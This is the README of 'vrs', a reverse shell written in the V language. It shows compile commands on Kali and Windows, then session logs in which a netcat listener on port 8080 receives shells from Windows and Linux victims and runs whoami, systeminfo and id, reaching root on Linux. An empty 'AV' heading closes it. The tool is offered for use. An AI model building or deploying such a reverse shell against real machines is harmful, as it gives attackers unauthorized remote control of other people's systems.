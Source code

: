 
# vrs

portable v based reverse shell

https://vlang.io/

https://github.com/vlang/v#installing-v-from-source

**Compile**

must compile on target platform (at least for now, relatively new language)

```
root@kali:/opt/v# ./v vrs.v 
root@kali:/opt/v# file vrs
vrs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6aeb8728d17200150a78ea64d2db7c0accdddb2f, for GNU/Linux 3.2.0, not stripped
```

```
C:\Users\User\v>v.exe -os windows vrs.v
mingw not found, trying to build with msvc...

```

**Usage**

Windows
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.202: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.202] 50780
whoami
windev1910eval\user

systeminfo

Host Name:                 WINDEV1910EVAL
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.18362 N/A Build 18362

```

Linux
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 37634
id
uid=0(root) gid=0(root) groups=0(root)

whoami
root
```

**AV**

